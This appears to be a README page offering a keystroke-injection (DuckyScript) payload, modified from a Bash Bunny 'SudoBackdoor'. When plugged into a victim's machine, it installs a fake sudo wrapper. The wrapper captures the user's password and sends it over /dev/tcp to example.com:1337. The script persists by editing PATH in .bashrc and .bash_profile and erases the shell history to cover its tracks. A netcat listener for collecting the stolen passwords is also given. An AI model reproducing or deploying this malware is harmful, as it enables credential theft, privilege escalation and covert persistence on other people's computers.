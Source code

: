 Payload originally designed by oXis for Bash Bunny.

Bash Bunny Payload page: https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/credentials/SudoBackdoor

Change example.com to your own domain or listening IP address and 1337 to your own port of choice.

```
REM Modified by 5h@d0w
DELAY 2000
GUI space
DELAY 500
ALT F2
DELAY 500
BACKSPACE
DELAY 100
STRING terminal
ENTER
DELAY 3000
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 100
STRING rm  ~/.config/sudo/sudo
ENTER
DELAY 100
STRING echo '#!/bin/bash
ENTER
STRING /usr/bin/sudo -n true 2>/dev/null
ENTER
STRING if [ $? -eq 0 ]
ENTER
STRING then
ENTER
STRING /usr/bin/sudo $@
ENTER
STRING else
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/example.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/example.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 600
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 800
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 500
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 500
STRING history -c && rm .bash_history && exit
ENTER
DELAY 1000
GUI q
```

Use this bash script to listen on your server:

```
#!/bin/bash
while [ true ]
do
netcat -vv -lp 1337 >> passwd.txt
done
```
